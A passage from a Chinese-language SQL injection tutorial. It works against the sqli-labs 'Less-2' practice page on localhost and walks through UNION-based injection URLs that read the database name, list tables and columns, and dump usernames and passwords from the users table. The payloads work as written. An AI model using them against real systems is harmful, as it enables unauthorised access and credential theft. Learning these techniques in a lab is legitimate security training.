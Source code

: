 <Image alt="图片8.png" src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7-qAIZdsAADRujoDa5o025.png"/>  
图 8： 系统数据库名

可以看到各个数据库名已经回显出来了。

**（3）获取当前数据库名**

通过当前页面的功能，我们可以知道它当前的数据库会涉及哪些数据，比如当前是账号创建和登录的页面，数据库必然包含账号密码信息，我们就可以先获取当前数据库名，后面再用来读取数据库中的字段值。MySQL 提供的 database() 函数可用来获取数据库名，因此我们可以像下面这样构建 URL：

```sql
http://localhost/Less-2/?id=0 union select 1,2,database()--+
```

访问后我们得到当前数据库名为 security，接下来就可以去尝试读取该数据库内的内容。

**（4）枚举数据库中的表名**

通过以下语句获取存储账号密码的表名 users：

```sql
http://localhost/Less-2/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

访问上述特意构造的链接后，页面返回以下内容：

<Image alt="图片9.png" src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7_OAZnv_AAGOoagH4-c761.png"/>  
图 9：数据库中的表名

**（5）枚举表中的字段名**

得到表名后，我们可以先看看有哪些字段名，为后面获取字段值做铺垫。由于表 information_schema.columns 中包含字段列表信息，因此我们可以通过它获取每个字段的名称，构造以下 URL 获取：

```java
http://localhost/Less-2/?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--+
```

访问后页面返回以下内容，得到表中的各个字段名：

<Image alt="Drawing 9.png" src="https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7yGAUF0ZAAAojuOFTVI874.png"/>  
图 10：表中的字段名

**（6）获取字段值**

前面我们已经拿到字段名、表名，接下来就可以直接通过 select 读取相应字段的值，比如此处用来获取 username 和 password 的值的 URL 请求：

```java
http://localhost/Less-2/?id=0 union select 1,2,group_concat(username,': ',password) from users--+
```

访问后页面返回各字段值：

<Image alt="图片11.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7_uAa4SGAADxQK_Xy8o851.png"/>  
图 11：各字段的值
